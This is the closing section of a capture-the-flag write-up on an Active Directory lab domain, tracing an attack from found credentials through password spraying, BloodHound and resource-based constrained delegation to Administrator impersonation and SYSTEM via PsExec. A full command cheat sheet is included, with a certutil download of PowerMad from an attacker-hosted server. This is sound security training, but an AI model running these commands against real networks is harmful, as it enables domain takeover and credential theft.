                        ▼
                 j.smith Credentials
                        │
                        ▼
                   RDP Access
                        │
                        ▼
                KeePass Database
                        │
                        ▼
               Credential Discovery
                        │
                        ▼
             Password Spraying / NXC
                        │
                        ▼
                    r.williams
                        │
                        ▼
                   BloodHound
                        │
                        ▼
                RBCD Relationship
                        │
                        ▼
             Create RBCD$ Computer
                        │
                        ▼
             Configure RBCD on DC01
                        │
                        ▼
                 S4U2Self
                        │
                        ▼
                S4U2Proxy
                        │
                        ▼
          Impersonate Administrator
                        │
              ┌─────────┴─────────┐
              ▼                   ▼
        SMB / C$                PsExec
              │                   │
              ▼                   ▼
 Administrator Desktop          SYSTEM
              │                   │
              └─────────┬─────────┘
                        ▼
                    flag.txt
                        │
                        ▼
                  ***{REDACTED}
```

---

# 25. Important Concepts to Remember

## LDAP

**LDAP** is one of the protocols used to communicate with Active Directory.

In this lab, it helped us enumerate domain users.

```
LDAP
 ↓
Users
Groups
Computers
AD information
```

---

## Password Spraying

Password spraying means testing a small number of known/common passwords against many accounts.

Our lab workflow was:

```
users.txt
    +
pass.txt
    ↓
NetExec
    ↓
Valid credentials
```

This helped identify:

```
r.williams : {REDACTED}
```

---

## BloodHound

**BloodHound** maps relationships inside Active Directory.

Instead of manually checking every permission, BloodHound can reveal relationships such as:

```
User → Computer
Computer → Computer
User → Group
Group → Computer
```

In this task, the important relationship pointed toward:

```
AddAllowedToAct
```

which led us to RBCD.

---

# 26. Resource-Based Constrained Delegation

### RBCD in simple terms

RBCD allows the **target computer** to define which computer accounts are trusted to act on behalf of other users.

The important AD attribute is:

```
msDS-AllowedToActOnBehalfOfOtherIdentity
```

Our attack changed this relationship so that:

```
RBCD$
```

could act on behalf of identities when accessing:

```
DC01$
```

---

# 27. Why We Created `RBCD$`

We needed an account that we controlled and that could participate in Kerberos delegation.

PowerMad created:

```
RBCD$
```

with a password we chose:

```
Password123456
```

Therefore:

```
Account: RBCD$
Password: Password123456
```

could be used by Impacket.

---

# 28. Kerberos S4U

The two important Kerberos operations were:

### S4U2Self

Request a service ticket representing another user.

```
RBCD$
   ↓
S4U2Self
   ↓
Administrator
```

### S4U2Proxy

Use delegation to request a ticket to a service on another computer.

```
Administrator
   ↓
S4U2Proxy
   ↓
CIFS/DC01.ctf.local
```

Together:

```
RBCD$
  ↓
S4U2Self
  ↓
Administrator
  ↓
S4U2Proxy
  ↓
CIFS/DC01.ctf.local
```

---

# 29. Two Ways We Used the Resulting Ticket

### Method 1 — SMB

```
impacket-smbclient -k -target-ip 10.48.179.139 'ctf.local/Administrator@DC01.ctf.local'
```

Purpose:

```
Kerberos authentication
        ↓
SMB
        ↓
C$
        ↓
Administrator Desktop
        ↓
flag.txt
```

### Method 2 — PsExec

```
impacket-psexec -k -no-pass ctf.local/administrator@DC01.ctf.local -dc-ip 10.48.179.139
```

Purpose:

```
Kerberos authentication
        ↓
ADMIN$
        ↓
Service creation
        ↓
Remote command execution
        ↓
SYSTEM
```

The **RBCD attack is the important technique**. SMB and PsExec are two different ways we used the resulting Kerberos authentication.

---

# 30. Final Command Cheat Sheet

## Recon

```
nmap -sCV -vvv -T5 10.48.179.139 | tee nmap.out
```

```
netexec ldap 10.48.179.139 -d ctf.local -u 'j.smith' -p 'JSmith\@IT2024' --users | awk '{print $5}'
```

```
impacket-GetUserSPNs 'ctf.local/j.smith\:JSmith\@IT2024' -dc-ip 10.48.179.139 -request
```

```
smbclient -L //10.48.179.139 -N
```

---

## RDP

```
xfreerdp /v:10.48.179.139 /u\:j.smith /d\:ctf.local /p:'JSmith\@IT2024' /cert\:ignore /dynamic-resolution
```

```
xfreerdp /v:10.48.179.139 /u\:r.williams /d\:ctf.local /p:'{REDACTED}' /cert\:ignore /dynamic-resolution
```

---

## Credential Testing

```
nxc smb 10.48.179.139 -d ctf.local -u users.txt -p pass.txt --continue-on-success
```

---

## PowerMad

```
python3 -m http.server 8000
```

```
certutil -f -urlcache http://192.168.159.204:8000/powermad.ps1 .\Powermad.ps1
```

```
Import-Module .\Powermad.ps1
```

```
New-MachineAccount -MachineAccount RBCD -Password $(ConvertTo-SecureString 'Password123456' -AsPlainText -Force) -Verbose
```

---

## RBCD

```
impacket-rbcd \
  -delegate-from 'RBCD' \
  -delegate-to 'DC01' \
  -action write \
  -dc-ip 10.48.179.139 \
  'ctf.local/r.williams\:{REDACTED}'
```

---

## Kerberos S4U

```
impacket-getST \
  -spn 'cifs/DC01.ctf.local' \
  -impersonate Administrator \
  -dc-ip 10.48.179.139 \
  'ctf.local/RBCD$\:Password123456'
```

```
export KRB5CCNAME="$PWD/Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache"
```

```
klist
```

---

## SMB

```
impacket-smbclient -k -target-ip 10.48.179.139 'ctf.local/Administrator@DC01.ctf.local'
```

```
shares
use C$
cd Users
cd Administrator
cd Desktop
ls
get flag.txt
```

---

## PsExec Alternative

```
impacket-psexec -k -no-pass ctf.local/administrator@DC01.ctf.local -dc-ip 10.48.179.139
```

```
whoami
```

Expected:

```
nt authority\system
```

---

# 31. Key Takeaways

> [!IMPORTANT]  
> **1. Enumerate first.**  
> LDAP, SMB, RDP, credentials, and BloodHound all contributed information to the attack path.

> [!IMPORTANT]  
> **2. Credential discovery can lead to privilege escalation.**  
> The KeePass database gave us another valid credential, which led to `r.williams`.

> [!IMPORTANT]  
> **3. BloodHound identified the important AD relationship.**  
> The `AddAllowedToAct` relationship pointed toward RBCD.

> [!IMPORTANT]  
> **4. RBCD requires a controlled computer account.**  
> We created `RBCD$` with PowerMad.

> [!IMPORTANT]  
> **5. S4U2Self + S4U2Proxy enabled Administrator impersonation.**

> [!IMPORTANT]  
> **6. The resulting Kerberos ticket could be used with different tools.**  
> We demonstrated both `impacket-smbclient` and `impacket-psexec`.

> [!IMPORTANT]  
> **7. PsExec resulted in SYSTEM.**

The core technique to remember from this room is:

```
Controlled machine account
        ↓
RBCD
        ↓
S4U2Self
        ↓
S4U2Proxy
        ↓
Administrator Kerberos ticket
        ↓
SMB / PsExec
        ↓
Privileged access
```